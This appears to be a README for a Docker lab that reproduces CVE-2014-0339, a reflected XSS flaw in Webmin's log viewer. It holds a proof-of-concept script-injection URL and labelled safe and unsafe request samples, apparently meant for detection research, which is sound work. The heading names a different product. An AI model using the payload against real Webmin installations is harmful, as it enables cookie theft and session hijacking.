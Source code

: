 # SOY CMS

## Building information

```console
$ docker build -t webmin ./
$ docker run -d -it --rm --name webmin -p 8080:80 webmin
```

## Vulnerability Details

- CVE-2014-0339
- https://github.com/webmin/webmin/commit/3b6234b511f97d18f4941c618ac594e73d8f7bda

### PoC

`http://localhost:8080/webminlog/view.cgi?id=1&search=e"><script>alert(document.cookie);</script>`

## Datasets

### Safe

- <./datasets/safe-1.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700059.929.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D2%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26long%3D0`
- <./datasets/safe-2.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700630.1031.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D2%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26fall%3D1%26file%3D%26dall%3D1%26diff%3D%26long%3D0`
- <./datasets/safe-3.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700059.929.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D1%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26fall%3D1%26file%3D%26dall%3D1%26diff%3D%26long%3D0`

### Unsafe

- <./datasets/xss-1.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700059.929.0&search=e%22%3E%3Cscript%3Ealert(document.cookie);%3C/script%3E`
